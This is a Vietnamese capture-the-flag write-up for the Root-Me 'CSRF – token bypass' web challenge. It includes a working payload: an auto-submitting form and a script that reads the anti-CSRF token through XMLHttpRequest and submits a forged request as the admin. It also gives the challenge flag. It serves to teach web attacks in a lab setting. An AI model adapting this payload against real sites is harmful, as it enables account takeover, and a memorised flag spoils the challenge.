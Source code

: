 # WRITE UP

**Challenge:** [CSRF -- token bypass](https://www.root-me.org/en/Challenges/Web-Client/CSRF-token-bypass)

Nhìn qua, ta thấy website này có các chức năng tương tự bài CSRF 0 protection. Tuy vậy, ta có thể phát hiện được ở tab Contact, có một thẻ input bị hidden có name là token:

![](./media/image1.png){width="6.5in" height="0.7666666666666667in"}

Giá trị token này sẽ thay đổi liên tục khi ta thực hiện submit form:

![](./media/image2.png){width="6.5in" height="0.5472222222222223in"}

Điều này sẽ được xác thực bởi server. Từ đó, ta cần trộm token này trước khi submit form như bài CSRF 0 protection. Ta có thể sử dụng Ajax và XMLHttpRequest() để có thể get được value này.

\<form id=\"clickme\" action=\"http://challenge01.root-me.org/web-client/ch23/?action=profile\" method=\"post\" enctype=\"multipart/form-data\"\>

\<input type=\"text\" name=\"username\" value=\"19522445\"\>

\<input type=\"checkbox\" name=\"status\" checked\>

\<input id=\"token\" type=\"hidden\" name=\"token\" value=\"\"/\>

\<button type=\"submit\"\>Submit\</button\>

\</form\>

\<script\>

var req = new XMLHttpRequest();

req.open(\"GET\", decodeURIComponent(\"http://challenge01.root-me.org/web-client/ch23/?action=profile\"), false);

req.setRequestHeader(\"Content-type\", \"application/x-www-form-urlencoded\");

req.send();

var token = req.responseText.match(/\[abcdef0123456789\]{32}/);

document.getElementById(\"token\").value = token;

document.getElementById(\"clickme\").submit();

\</script\>

![Graphical user interface, text, application Description automatically generated](./media/image3.png){width="6.5in" height="2.1944444444444446in"}

Submit để gửi contact đến admin và qua tab Private để kiểm tra kết quả. Sau hơn 1 phút, ta nhận được flag:

![Graphical user interface, text, application, chat or text message Description automatically generated](./media/image4.png){width="5.968004155730534in" height="2.218472222222222in"}

**Flag:** Byp4ss_CSRF_T0k3n-w1th-XSS
